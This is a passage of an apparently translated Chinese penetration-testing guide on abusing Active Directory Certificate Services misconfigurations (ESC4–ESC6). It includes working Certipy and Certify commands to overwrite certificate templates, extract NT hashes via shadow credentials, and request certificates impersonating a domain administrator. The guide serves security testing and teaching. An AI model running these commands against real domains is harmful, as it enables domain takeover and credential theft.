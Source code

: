 正如我们在上面的路径中看到的，只有`JOHNPC`拥有这些权限，但我们的用户`JOHN`对`JOHNPC`有新的`AddKeyCredentialLink`边缘。由于此技术与证书相关，我也实现了这种攻击，称为[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)。这是Certipy的`shadow auto`命令的一个小预览，用于检索受害者的NT哈希。
```bash
certipy shadow auto 'corp.local/john:Passw0rd!@dc.corp.local' -account 'johnpc'
```
**Certipy** 可以通过一个命令覆盖证书模板的配置。默认情况下，Certipy 将覆盖配置，使其对 ESC1 **易受攻击**。我们还可以指定 **`-save-old` 参数以保存旧配置**，这在我们攻击后 **恢复** 配置时将非常有用。
```bash
# Make template vuln to ESC1
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old

# Exploit ESC1
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local

# Restore config
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
```
## Vulnerable PKI Object Access Control - ESC5

### Explanation

广泛的基于ACL的关系网络，包括多个超出证书模板和证书颁发机构的对象，可能会影响整个AD CS系统的安全性。这些对象可能显著影响安全性，包括：

- CA服务器的AD计算机对象，可能通过S4U2Self或S4U2Proxy等机制被攻陷。
- CA服务器的RPC/DCOM服务器。
- 在特定容器路径`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`内的任何后代AD对象或容器。该路径包括但不限于容器和对象，如证书模板容器、认证机构容器、NTAuthCertificates对象和注册服务容器。

如果低权限攻击者设法控制这些关键组件中的任何一个，PKI系统的安全性可能会受到威胁。

## EDITF_ATTRIBUTESUBJECTALTNAME2 - ESC6

### Explanation

在[**CQure Academy post**](https://cqureacademy.com/blog/enhanced-key-usage)中讨论的主题也涉及**`EDITF_ATTRIBUTESUBJECTALTNAME2`**标志的影响，如微软所述。当在认证机构（CA）上激活此配置时，允许在**任何请求**的**主题备用名称**中包含**用户定义的值**，包括那些从Active Directory®构建的请求。因此，这一条款允许**入侵者**通过为域**身份验证**设置的**任何模板**进行注册——特别是那些对**无特权**用户注册开放的模板，如标准用户模板。结果，可以获得证书，使入侵者能够以域管理员或**域内任何其他活动实体**的身份进行身份验证。

**注意**：通过`certreq.exe`中的`-attrib "SAN:"`参数将**备用名称**附加到证书签名请求（CSR）的方法（称为“名称值对”）与ESC1中SAN的利用策略存在**对比**。这里的区别在于**账户信息的封装方式**——在证书属性中，而不是扩展中。

### Abuse

要验证该设置是否已激活，组织可以使用以下命令与`certutil.exe`：
```bash
certutil -config "CA_HOST\CA_NAME" -getreg "policy\EditFlags"
```
此操作本质上使用 **远程注册表访问**，因此，另一种方法可能是：
```bash
reg.exe query \\<CA_SERVER>\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA_NAME>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```
像 [**Certify**](https://github.com/GhostPack/Certify) 和 [**Certipy**](https://github.com/ly4k/Certipy) 这样的工具能够检测到这种错误配置并加以利用：
```bash
# Detect vulnerabilities, including this one
Certify.exe find

# Exploit vulnerability
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:User /altname:localadmin
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
```